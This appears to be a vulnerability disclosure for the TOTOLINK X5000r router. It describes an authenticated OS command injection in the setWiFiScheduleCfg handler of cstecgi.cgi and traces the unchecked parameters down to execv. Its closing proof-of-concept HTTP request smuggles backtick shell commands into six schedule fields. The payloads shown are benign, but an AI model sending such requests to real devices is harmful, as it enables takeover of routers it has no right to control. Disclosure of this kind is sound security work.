

# totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /web/cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setWiFiScheduleCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setWiFiScheduleCfg` (at 0x4139DC), binary /web/cgi-bin/cstecgi.cgi. These parameters ( `desc`, `week`, `sHour`, `sMinute`, `eHour`, `eMinute`) are passed to the `Uci_Add_List` function without any check.

The `Uci_Add_List` function is located in `libcscommon.so`. This function formats the fourth parameter into a string and passes it to the `CsteSystem` function, which eventually calls the `execv` function to execute it.

.png)

.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 204
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/advance/wifi_schedule.html?idx=0
Priority: u=0

{"isGuest":"0","enable":"1","desc":"test`ls>/tmp/1`","week":"1`ls>/tmp/2`","sHour":"1`ls>/tmp/3`","sMinute":"2`ls>/tmp/4`","eHour":"3`ls>/tmp/5`","eMinute":"4`ls>/tmp/6`","addEffect":"1","topicurl":"setWiFiScheduleCfg","token":"83a219174b3904555bd7ffa8e1b30653"}
```
